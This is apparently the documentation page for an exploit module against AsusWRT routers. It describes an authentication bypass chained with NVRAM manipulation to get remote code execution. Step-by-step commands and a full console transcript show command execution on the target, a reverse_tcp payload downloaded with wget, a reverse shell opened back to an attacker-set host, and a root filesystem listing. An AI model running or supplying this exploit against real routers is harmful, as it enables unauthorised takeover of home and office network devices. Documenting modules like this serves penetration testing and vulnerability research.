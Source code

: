 ## Description

Module exploits multiple vulnerabilities to achieve remote code execution in AsusWRT firmware. The HTTP server contains vulnerability that allows bypass authentication via POST requests. Combining this with another vulnerability in the VPN configuration upload functionality allows setting NVRAM configuration variables directly from the POST request. By setting nvram variable ateCommand_flag to 1 it is possible to enable special command mode which allows executing commands via infosvr server listening on port UDP 9999. Module was tested on Asus RT-AC68U 3.0.0.4.380_7378.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use exploits/routers/asus/asuswrt_lan_rce`
  3. Do: `set target[TargetIP]`
  4. Do: `run`
  5. If router is vulnerable, it should be possible to execute commands on operating system level.

  6. Do: `set payload reverse_tcp`
  7. Do: `set lhost [AttackerIP]`
  8. Do: `run`
  9. Payload is sent to device and executed providing attacker with the command shell.


## Scenarios

```
rsf > use exploits/routers/asus/asuswrt_lan_rce
rsf (AsusWRT Lan RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (AsusWRT Lan RCE) > run
[*] Running module...
[+] Successfuly set ateCommand_flag variable

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                  Description
   -------         ----                  -----------
   bind_tcp        ARMLE Bind TCP        Creates interactive tcp bind shell for ARMLE architecture.
   reverse_tcp     ARMLE Reverse TCP     Creates interactive tcp reverse shell for ARMLE architecture.

cmd > set payload reverse_tcp
cmd (ARMLE Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder


cmd (ARMLE Reverse TCP) > set lhost 192.168.1.115
lhost => 192.168.1.115
cmd (ARMLE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:56981
[+] Enjoy your shell
ls -la
drwxr-xr-x   18 admin    root           325 Mar 15  2017 .
drwxr-xr-x   18 admin    root           325 Mar 15  2017 ..
drwxr-xr-x    2 admin    root             3 Mar 15  2017 asus_jffs
drwxr-xr-x    2 admin    root           706 Mar 15  2017 bin
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs1
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs2
drwxr-xr-x    5 admin    root          1540 Aug  1  2015 dev
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 etc -> tmp/etc
lrwxrwxrwx    1 admin    root             8 Mar 15  2017 home -> tmp/home
drwxr-xr-x    5 admin    root             0 Sep  4 22:40 jffs
drwxr-xr-x    3 admin    root           402 Mar 15  2017 lib
lrwxrwxrwx    1 admin    root             9 Mar 15  2017 media -> tmp/media
drwxr-xr-x    2 admin    root             3 Mar 15  2017 mmc
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 mnt -> tmp/mnt
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 opt -> tmp/opt
dr-xr-xr-x  106 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    7 admin    root           766 Mar 15  2017 rom
lrwxrwxrwx    1 admin    root            13 Mar 15  2017 root -> tmp/home/root
drwxr-xr-x    2 admin    root          2428 Mar 15  2017 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
drwxr-xr-x    2 admin    root             3 Mar 15  2017 sysroot
drwxrwxrwx   13 admin    root           860 Sep  4 22:50 tmp
drwxr-xr-x    8 admin    root           139 Mar 15  2017 usr
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 var -> tmp/var
drwxr-xr-x   14 admin    root          6036 Mar 15  2017 www
```
